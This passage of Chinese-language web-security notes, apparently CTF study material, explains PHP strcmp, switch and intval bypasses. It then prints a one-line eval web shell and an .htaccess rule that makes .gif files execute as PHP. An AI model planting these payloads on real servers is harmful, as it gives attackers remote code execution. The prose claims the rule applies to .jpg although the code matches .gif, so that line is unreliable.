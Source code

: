 `strcmp`比较的是字符串类型，如果强行传入其他类型参数，会出错，出错后返回值`0`，正是利用这点进行绕过。

*传入非字符串类型，比如数组，进行绕过*
```c
URL/?a[]=1
```

## 10.3 switch绕过

对于传入的参数`0`和`1`，会有额外的`bool`比较

```php
<?php
$a = 0;
switch ($a) {
    case $a <= 10:
            echo '小于10';
        break;
 
    case $a > 20:
            echo '大于20';
        break;
 
    default:
        	echo '大于30';
        break;
}
```
在上面的代码中，输出的结果为 `大于20`
因为`a`先与`10`比较，返回`true`，但是`0`表示`false`，`false!=true`,所以进入下一个`case`，`0>20`返回`false`，`false==false`，成立

## 10.4 intval绕过

`intval()` 函数用于获取变量的整数值
```php
echo intval(53);                      // 53
echo intval(5.3);                     // 5
```
关于intval这个函数存在一个漏洞:
```php
echo intval(1e10);                    // 1410065408
echo intval('1e10');                  // 1
```
单引号传值的时候，它只识别字母前面连续的数字，当我们进行`GET`传参时，其实就是默认加单引号的，在`PHP`中，`+`号会被判定成把他强制转换成科学计数法进行计算，而不是一个字符串`+1`,即变为`1e10+1`而不是`'1e10'+1`。

---
# 十一. 文件绕过
## 11.1 常用脚本

### 11.1.1 一句话木马
```php
<?php @eval($_POST['123']);?>
```
### 11.1.2 将图片文件作为 php 执行
```php
<FilesMatch "\.gif">
SetHandler application/x-httpd-php
</FilesMatch>	
```
当请求的文件扩展名为 `.jpg` 时，服务器不会将其作为普通的图片文件直接传输给客户端，而是会当作 PHP 脚本进行解析和执行，需要搭配图片藏码使用
